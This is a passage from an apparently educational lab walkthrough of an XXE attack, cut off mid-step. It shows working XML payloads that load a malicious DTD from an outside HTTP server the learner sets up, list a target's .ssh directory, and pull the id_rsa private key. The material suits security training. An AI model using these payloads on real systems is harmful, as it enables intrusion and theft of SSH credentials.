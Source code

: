 
Start a Python-based HTTP server on port 8080:

Command:
```bash
python3 -m http.server 8080
```


Send the same XXE payload we sent in the last step:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```



The directory listing for .ssh directory is retrieved:


Save the retrieved HTML contents:

Command:
```bash
cat listing.html
```


Open the listing.html file in the browser:

URL:
```
file:///root/listing.html
```

Notice there are three files in the .ssh directory:
```bash
authorized_keys
id_rsa
id_rsa.pub
```

In the subsequent steps, we will fetch some of these files.

Step 10: Retrieve the private SSH keys.

Modify the evil.dtd file to fetch the contents of id_rsa file:
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/.ssh/id_rsa">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```


Start a Python-based HTTP server on port 8080:
